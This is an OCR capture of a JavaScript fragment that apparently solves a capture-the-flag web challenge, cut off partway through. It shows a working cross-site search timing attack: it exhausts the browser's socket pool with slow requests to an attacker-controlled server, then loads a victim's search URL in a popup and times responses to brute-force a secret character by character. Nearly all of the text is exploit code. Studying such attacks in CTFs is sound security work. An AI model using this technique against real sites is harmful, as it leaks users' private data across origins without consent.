 ```html
console.log(e);
}
let end = window.performance.now();
return end - start;
}

const fetch_sleep_long = (i) => {
// 40s sleep
return fetch(`https://${i}.${MYSERVER}/40sleep`, {
mode: 'no-cors'
});
}

const fetch_sleep_short = (i) => {
// 0.25s sleep
return fetch(`https://${i}.${MYSERVER}/ssleep`, {
mode: 'no-cors'
});
}

const block_socket = async (i) => {
fetch_sleep_long(i);
// needed?
await sleep(0);
}

const exhaust_sockets = async() => {
let i = 0
for (; i < SOCKETLIMIT; i++) {
block_socket(i);
}
console.log(`Used ${i} connections`);
}

const timeit = async (url, popup) => {
return new Promise(async (r) => {

popup.location = url;
// needed?
await sleep(50)

let val = await time_fetch()
r(val)
});
}

// const alphabet = '_abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ-}!"#$%&\'()*+,-./:;<=>?@[\\]^`|~{'.split('');
const alphabet = 'abcdefghijklmnopqrstuvwxyz}_'.split('');
// const alphabet = 'abcdef}'.split('');

const oracle = async (search) => {
let url = `https://carrot-${INSTANCE}.mc.ax/tasks?search=${search}`
let t = await timeit(url, WINBG)

LOG = `${search}:${t}`
console.log(`${search}:${t}`)

return t > TIMELIMIT
}

const brute = async (flag) => {
for (const char of alphabet) {
```